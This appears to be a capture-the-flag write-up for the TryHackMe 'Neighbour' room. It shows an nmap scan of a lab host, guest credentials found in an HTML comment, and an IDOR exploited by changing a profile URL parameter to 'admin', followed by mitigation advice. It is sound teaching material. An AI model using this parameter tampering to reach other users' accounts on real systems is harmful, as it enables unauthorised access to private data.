





# Neighbour


> Check out our new cloud service, Authentication Anywhere -- log in from anywhere you would like! Users can enter their username and password, for a totally secure login process! You definitely wouldn't be able to find any secrets that other people have in their profile, right?

In this challenge, you will explore an IDOR vulnerability in a simple login/profile web application.

**Room link:** https://tryhackme.com/room/neighbour

---

## 1. Verify the machine is running

```bash
ping -c 3 10.128.186.36
```

- `-c 3` sends 3 ICMP echo requests and then stops (instead of pinging indefinitely)

```
PING 10.128.186.36 (10.128.186.36) 56(84) bytes of data.
64 bytes from 10.128.186.36: icmp_seq=1 ttl=62 time=10.6 ms
64 bytes from 10.128.186.36: icmp_seq=2 ttl=62 time=11.1 ms
64 bytes from 10.128.186.36: icmp_seq=3 ttl=62 time=9.59 ms

--- 10.128.186.36 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 9.587/10.430/11.138/0.640 ms
```

The machine is running.

## 2. Port scanning

```bash
nmap -sC -sV 10.128.186.36
```

- `-sC` runs the default scripts
- `-sV` detects service versions

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-03 18:30 +0200
Nmap scan report for 10.128.186.36
Host is up (0.0096s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 54:06:46:e0:11:df:c4:54:06:ff:ac:72:4c:73:23:cd (RSA)
|   256 db:2d:9d:9a:c9:21:ee:d7:fd:d9:63:ef:ff:41:fd:76 (ECDSA)
|_  256 3e:11:c3:9b:42:da:da:51:38:5f:14:5d:df:06:de:4f (ED25519)
80/tcp open  http    Apache httpd 2.4.53 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.53 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.82 seconds
```

Two open ports: **22 (SSH)** and **80 (HTTP, Apache)**.

## 3. Inspecting the website

Browsing to the site shows a simple login page.



One line stands out:

> Don't have an account? Use the guest account! (Ctrl+U)

Pressing `Ctrl+U` opens the page source:



```html
<!-- use guest:guest credentials until registration is fixed. "admin" user account is off limits!!!!! -->
```

## 4. Logging in as guest

Using the `guest:guest` credentials from the HTML comment logs us in successfully.



The URL after login is telling:

```
http://10.128.186.36/profile.php?user=guest
```

The `user` parameter is controlled by us — a classic sign of a potential IDOR.

## 5. Finding another hint

Inspecting the profile page's source reveals another comment:



```html
<!-- admin account could be vulnerable, need to update -->
```

This confirms an `admin` account exists, and that it may be reachable through the same unprotected parameter.

## 6. Exploiting the IDOR

Changing the `user` parameter from `guest` to `admin`:

```
http://10.128.186.36/profile.php?user=admin
```



This grants access to the admin account's profile — and the flag.

## Takeaways

This is a simple example of **IDOR (Insecure Direct Object Reference)**: `profile.php` trusts the `user` parameter supplied by the client instead of checking whether the logged-in session is actually authorized to view that profile.

**Mitigation:**
- Enforce server-side access control: verify the authenticated session owns (or is authorized to view) the requested resource, don't rely on client-supplied identifiers alone.
- Avoid exposing predictable, guessable identifiers (plain usernames) in URL parameters for sensitive resources.